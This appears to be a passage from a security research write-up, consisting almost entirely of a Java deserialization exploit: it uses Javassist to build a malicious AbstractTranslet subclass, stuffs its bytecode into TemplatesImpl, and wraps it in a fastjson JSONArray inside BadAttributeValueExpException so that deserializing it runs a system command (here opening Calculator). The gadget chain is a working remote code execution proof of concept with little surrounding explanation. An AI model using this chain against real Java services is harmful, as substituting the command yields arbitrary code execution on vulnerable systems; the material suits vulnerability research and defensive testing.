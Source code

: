 ```
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("test");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -na Calculator\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "DawnT0wn");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image-20250128205937776](images/4.png)
